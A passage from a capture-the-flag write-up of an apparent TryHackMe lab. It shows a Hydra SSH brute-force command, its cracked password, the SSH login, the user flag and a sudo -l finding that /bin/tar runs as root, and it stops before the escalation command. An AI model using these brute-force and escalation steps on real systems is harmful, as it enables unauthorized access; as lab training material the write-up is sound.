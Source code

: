 -lin

### This file didn't provide much insight for now, so I turned my focus back to the password list.



## 4. Hydra Bruteforce Attack

### I ran a Hydra brute-force attack against the SSH service to test the possible passwords I retrieved from locks.txt:

hydra -l lin -P locks.txt ssh://10.10.244.212

### Hydra successfully cracked the password:

[DATA] attacking ssh://10.10.244.212:22/
[22][ssh] host: 10.10.244.212   login: lin   password: RedDr4gonSynd1cat3

## 5. Accessing User Account

### I logged into the machine using the lin user account with the cracked password:

ssh lin@10.10.244.212

### Once inside, I navigated to the Desktop directory and found the user.txt flag:

cat user.txt

Flag:

## THM{CR1M3_SyNd1C4T3}

## 6. Sudo Permissions Check

### I ran sudo -l to check if the lin user had any elevated privileges:

sudo -l

### The result showed that lin could run the /bin/tar command as root without a password:

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

## 7. Privilege Escalation

### Since lin could run /bin/tar as root, I decided to exploit this by using the tar command for privilege escalation. I executed the following command:
